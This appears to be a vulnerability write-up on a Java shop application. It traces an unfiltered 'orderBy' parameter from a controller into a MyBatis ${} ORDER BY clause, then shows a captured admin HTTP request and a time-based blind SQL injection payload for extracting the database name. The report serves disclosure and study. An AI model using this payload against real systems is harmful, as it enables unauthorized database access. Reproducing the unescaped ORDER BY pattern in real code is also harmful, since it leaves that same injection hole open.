



#### src/main/resources/mybatis/mapper/UserMapper.xml

```xml
    <select id="select" resultMap="userMap">
        SELECT user_id,user_name,user_nickname,user_password,user_realname,user_gender,user_birthday,user_profile_picture_src,user_address,user_homeplace FROM user
        <if test="user != null">
            <where>
                <if test="user.user_name != null">
                    (user_name LIKE concat('%',#{user.user_name},'%') or user_nickname LIKE concat('%',#{user.user_name},'%'))
                </if>
                <if test="user.user_gender != null">
                    and user_gender = #{user.user_gender}
                </if>
            </where>
        </if>
        <if test="orderUtil != null">
            ORDER BY ${orderUtil.orderBy}<if test="orderUtil.isDesc">desc </if>
        </if>
        <if test="pageUtil != null">
            LIMIT #{pageUtil.pageStart},#{pageUtil.count}
        </if>
    </select>
```

​	The injection parameter is the orderBy parameter in orderUtil, which can be traced upwards.

```java
    //按条件查询用户-ajax
    @ResponseBody
    @RequestMapping(value = "admin/user/{index}/{count}", method = RequestMethod.GET, produces = "application/json;charset=UTF-8")
    public String getUserBySearch(@RequestParam(required = false) String user_name/* 用户名称 */,
                                  @RequestParam(required = false) Byte[] user_gender_array/* 用户性别数组 */,
                                  @RequestParam(required = false) String orderBy/* 排序字段 */,
                                  @RequestParam(required = false,defaultValue = "true") Boolean isDesc/* 是否倒序 */,
                                  @PathVariable Integer index/* 页数 */,
                                  @PathVariable Integer count/* 行数 */) throws UnsupportedEncodingException {
        //移除不必要条件
        Byte gender = null;
        if (user_gender_array != null && user_gender_array.length == 1) {
            gender = user_gender_array[0];
        }

        if (user_name != null) {
            //如果为非空字符串则解决中文乱码：URLDecoder.decode(String,"UTF-8");
            user_name = "".equals(user_name) ? null : URLDecoder.decode(user_name, "UTF-8");
        }
        if (orderBy != null && "".equals(orderBy)) {
            orderBy = null;
        }
        //封装查询条件
        User user = new User()
                .setUser_name(user_name)
                .setUser_gender(gender);

        OrderUtil orderUtil = null;
        if (orderBy != null) {
            logger.info("根据{}排序，是否倒序:{}",orderBy,isDesc);
            orderUtil = new OrderUtil(orderBy, isDesc);
        }

        JSONObject object = new JSONObject();
        logger.info("按条件获取第{}页的{}条用户", index + 1, count);
        PageUtil pageUtil = new PageUtil(index, count);
        List<User> userList = userService.getList(user, orderUtil, pageUtil);
        object.put("userList", JSONArray.parseArray(JSON.toJSONString(userList)));
        logger.info("按条件获取用户总数量");
        Integer userCount = userService.getTotal(user);
        object.put("userCount", userCount);
        logger.info("获取分页信息");
        pageUtil.setTotal(userCount);
        object.put("totalPage", pageUtil.getTotalPage());
        object.put("pageUtil", pageUtil);

        return object.toJSONString();
    }
```

​	Tracing back to the controller, the order function is used, which shows that there is no filtering here, and we locate the user management module on the front end



​	Grab the packet.

```http
GET /tmall/admin/user/0/10?user_name=123&user_gender_array=0&user_gender_array=1&orderBy=1&isDesc=true HTTP/1.1
Host: 172.21.53.85:8080
X-Requested-With: XMLHttpRequest
Referer: http://172.21.53.85:8080/tmall/admin
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=3B16C09E8A179A970E83C60845A3ED95; username=1209577113; admin-token=1#2F31733671566670654C7A6C432B6766575978556E4E58456F4554656B56596479727567522B483048444B544C5A4F5332736C4673556352716E516573486D535366716C76524751733336462F746D77657036476C516F4C493741783532773834364D74783071516B5079657A6856355766355970547677473254736F2F5165454A656B366857734474653154734B672F494A4A33773D3D
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: */*
```

​	The injection point is the orderBy parameter, which is attempted to be injected. An error is reported after entering a single quotation mark, and the payload is constructed by attempting to close.

```sql
if(ascii(substr((select%20database()),1,1))=1,sleep(0.1),1)
```



​	After exporting the data, the database name is obtained:

